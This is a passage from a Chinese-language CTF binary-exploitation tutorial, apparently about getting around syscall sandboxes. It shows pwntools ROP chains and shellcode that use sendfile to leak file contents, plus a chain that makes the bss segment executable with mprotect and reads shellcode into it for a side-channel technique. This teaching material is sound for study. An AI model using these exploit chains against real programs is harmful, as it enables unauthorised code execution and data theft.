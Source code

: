 > mov [rsp],rsp
> mov rdi, 1
> mov rsi, rsp
> mov rdx, 0x1
> mov rax, 0x14
> syscall
> """   # write
> ```

#### sendfile

**sendfile可以直接代替write与read**

> **rop**
>
> ```python
> rop += flat(pop_rdi, 1, pop_rsi, 3, pop_rdx_r12, 0, 0, pop_rcx, 0x100, libc.sym["sendfile"])
> ```

> **shellcode**
>
> ```python
> shellcode += shellcraft.amd64.linux.sendfile(1, "rax", 0, 0x200)
> shellcode += """
> mov rdi, 1
> mov rsi, rax
> mov rdx, 0
> mov r10, 0x100
> mov rax, 0x28
> syscall
> """ 
> ```

#### 侧信道攻击

> 这个攻击比较特殊，实在没有输出手段的时候就利用此方法，此方法相当不准确，谨慎使用。

> 如果rop同上面一样使用
>
> ```python
> bss_addr = 0x000000000404020 # 写bss段
> exec_fd = (bss_addr >> 12) << 12
> rop = b"a" * 0x18
> rop += flat(pop_rdi, exec_fd, pop_rsi, 0x1000, pop_rdx_r12, 7, 0, libc.sym["mprotect"])
> rop += flat(pop_rdi, 0, pop_rsi, exec_fd, pop_rdx_r12, 0x1000, 0, libc.sym["read"], exec_fd)
> 
> sh.sendline(rop)
> sh.sendline([shellcode]) # 填写shellcode
> ```
>
> 来转化成写shellcode

接下来看shellcode怎么写。
